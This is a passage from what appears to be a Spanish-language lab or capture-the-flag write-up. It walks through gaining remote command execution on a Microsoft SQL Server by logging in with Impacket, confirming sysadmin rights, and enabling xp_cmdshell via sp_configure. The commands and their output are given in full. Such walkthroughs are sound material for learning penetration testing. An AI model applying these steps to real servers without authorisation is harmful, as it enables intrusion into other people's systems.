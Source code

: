 ```shell
Impacket v0.10.1.dev1+20230207.122134.c812d6c7 - Copyright 2022 Fortra

Password:
[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(ARCHETYPE): Line 1: Changed database context to 'master'.
[*] INFO(ARCHETYPE): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (140 3232) 
[!] Press help for extra shell commands
SQL>
```

## Consiguiendo RCE (ejecución remota de comandos)

Una vez dentro podemos tratar de mostrar el menú de ayuda con `help`, sin embargo, no obtenemos información muy relevante. Así que nos toca buscar por nuestra cuenta, en [[1433-ms-sql-s]] estará toda la info.

El primer paso será comprobar si nuestro usuario tiene privilegios de administrador:

```sql
SELECT is_srvrolemember('sysadmin');
```

A lo que nos devuelve `1` (true), lo que nos indica que somos un usuario administrador de la base de datos. En este punto, podríamos probar a ejecutar comandos a través de `xp_cmdshell`. Aunque lo primero es comprobar si está habilitado:


```sql
EXEC xp_cmdshell 'net user';
```

Nos reporta que:

```sql
[-] ERROR(ARCHETYPE): Line 1: SQL Server blocked access to procedure 'sys.xp_cmdshell' of component 'xp_cmdshell' because this component is turned off as part of the security configuration for this server. A system administrator can enable the use of 'xp_cmdshell' by using sp_configure. For more information about enabling 'xp_cmdshell', search for 'xp_cmdshell' in SQL Server Books Online.
```

Así que lo habilitaremos de la siguiente manera:

```sql
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
sp_configure; -- Enabling the sp_configure as stated in the above error message
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
```

Una vez configurado ya podemos ejecutar comandos:

```powershell
SQL> xp_cmdshell "whoami"
output                                                                             

--------------------------------------------------------------------------------   

archetype\sql_svc                                                                  

NULL                                                                               

SQL>
```
